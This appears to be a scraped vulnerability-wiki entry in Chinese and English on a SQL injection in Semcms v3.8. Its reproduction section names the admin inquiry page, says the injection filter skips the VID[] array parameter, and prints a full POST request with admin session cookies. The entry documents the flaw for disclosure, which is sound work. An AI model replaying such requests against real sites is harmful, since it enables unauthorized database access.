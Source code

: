 Semcms v3.8 sql注入漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

Semcms v3.8

三、复现过程
------------

> URL: <http://0-sec.org/123/sOWj5B_Admin/SEMCMS_Inquiry.php>
>
> ![](/Users/aresx/Documents/VulWiki/.resource/Semcmsv3.8sql注入漏洞/media/rId25.png){width="5.833333333333333in"
> height="2.9166666666666665in"}Debug：Defense module is
> class.phpmailer.php and function
> inject\_check\_sql![](/Users/aresx/Documents/VulWiki/.resource/Semcmsv3.8sql注入漏洞/media/rId26.png){width="5.833333333333333in"
> height="0.4946084864391951in"}But VID\[\] didn\'t handle it

-   POST

```{=html}
<!-- -->
```
    POST /123/sOWj5B_Admin/SEMCMS_Inquiry.php?Class=Deleted&CF=Inquriy&page= HTTP/1.1
    Host: 0-sec.org
    Content-Length: 24
    Cache-Control: max-age=0
    Origin: http://127.0.0.1
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Referer: http://127.0.0.1/123/sOWj5B_Admin/SEMCMS_Inquiry.php
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: MEIQIA_EXTRA_TRACK_ID=1F7WZdk3rwHIzKqUfkrNaZ9t1EE; _ga=GA1.1.1842664860.1547715044; UM_distinctid=169c55686280-0636c606d502d3-36664c08-1fa400-169c556862b2e4; CNZZDATA1256162028=1606185978-1553793969-%7C1553793969; CNZZDATA1707573=cnzz_eid%3D987595238-1554794879-http%253A%252F%252F127.0.0.1%252F%26ntime%3D1554913098; PHPSESSID=n75nrqp26757vguhhgd4mlptd4; __51cke__=; __tins__4329483=%7B%22sid%22%3A%201556088941568%2C%20%22vd%22%3A%203%2C%20%22expires%22%3A%201556090843766%7D; __51laig__=3; scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
    Connection: close

    languageID=&AID%5B%5D=3

image
